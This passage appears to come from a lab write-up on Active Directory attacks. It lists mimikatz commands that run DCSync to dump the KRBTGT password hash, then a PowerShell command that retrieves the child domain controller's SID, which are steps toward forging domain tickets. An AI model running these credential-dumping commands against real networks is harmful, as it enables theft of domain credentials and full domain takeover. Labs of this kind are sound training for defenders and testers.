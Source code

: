 	* Use Mimikatz with a DC Sync to recover the KRBTGT password hash
	
		```
		C:\Tools\mimikatz_trunk\x64\mimikatz.exe

		privilege::debug
		lsadump::dcsync /user:za\krbtgt
		```

		![task8-mimikatz](./images/task8-mimikatz.png)

	* Recover the SID of the child domain controller
	
		```
		Get-ADComputer -Identity "THMDC"
		```
